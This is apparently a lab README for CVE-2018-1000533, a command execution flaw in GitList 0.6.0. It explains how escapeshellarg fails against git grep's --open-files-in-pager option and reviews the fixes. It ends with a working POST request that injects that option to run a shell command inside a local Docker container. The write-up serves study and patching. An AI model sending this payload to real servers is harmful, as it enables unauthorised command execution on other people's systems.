 # GitList 0.6.0 Remote Command Execution (CVE-2018-1000533)

[中文版本(Chinese version)](README.zh-cn.md)

GitList is an elegant and modern git repository viewer.

GitList version <= 0.6 contains a passing incorrectly sanitized input to system function vulnerability in `searchTree` function that can result in executing arbitrary commands as PHP user. This attack appear to be exploitable via POST request using search form.

References:

- <https://github.com/klaussilveira/gitlist/commit/87b8c26b023c3fc37f0796b14bb13710f397b322>
- <https://www.exploit-db.com/exploits/44548>
- <https://www.leavesongs.com/PENETRATION/escapeshellarg-and-parameter-injection.html>

## Vulnerable environment

Execute following command to start a GitList server 0.6.0:

```
docker compose up -d
```

After the server is started, browse the `http://your-ip:8080` and you will see a repository named `example`.

## Vulnerability Principle

GitList uses `git grep` while searching code in repository:

```php
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }

    $query = escapeshellarg($query);

    try {
        $results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

`$query` is the search keyword, `$branch` is the target branch.

`id` will be executed if attacker passed `--open-files-in-pager=id;` as the `$query`'s value:

![](img/1.png)

There are two reasons for this vulnerability:

1. Misunderstanding of the `escapeshellarg` function, resulting in arguments injection
2. The value of the `--open-files-in-pager` argument of `git grep`, which will be directly executed

Theoretically, after `$query = escapeshellarg($query);`, `$query` will become a string wrapped in single quotes. The premise of the bug is that the string should appear in the “parameter value” position, not in the parameter option.

To fix this issue, we can put the `$query` option behind `-e`:

```
git grep -i --line-number -e '--open-files-in-pager=id;' master
```

![](img/2.png)

This is the suggestion from Git official:

> -e
> The next parameter is the pattern. This option has to be used for patterns starting with - and should be used in scripts passing user input to grep. Multiple patterns are combined by
> or.

GitList used another fix:

```php
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }
    $query = preg_replace('/(--?[A-Za-z0-9\-]+)/', '', $query);
    $query = escapeshellarg($query);
    try {
        $results = $this->getClient()->run($this, "grep -i --line-number -- {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

Firstly, remove illegal `-` prefix from `$query`, then put it behind `--`. The double-dash (`--`) will be accepted as a delimiter indicating the end of options in command line.

> A -- signals the end of options and disables further option processing. Any arguments after the -- are treated as filenames and arguments. An argument of - is equivalent to --.
>
> If arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands. If bash is invoked in this fashion, $0 is set to the name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits. Bash's exit status is the exit status of the last command executed in the script. If no commands are executed, the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.

So this this patch is acceptable, except that the `preg_replace` in the first step affects the normal search function.

## Exploit

Send following request:

```
POST /example/tree/a/search HTTP/1.1
Host: your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Length: 56

query=--open-files-in-pager=touch /tmp/success;
```

Noted that there are two arguments in URL: `/[repo_name]/tree/[keyword]/search`. `[repo_name]` must be a existing repository in the GitList, `[keyword]` is a search keyword that produces at least one result.

After the request is sent, use `docker compose exec web bash` to enter the container and you can see that `/tmp/success` has been successfully created:

![](img/4.png)

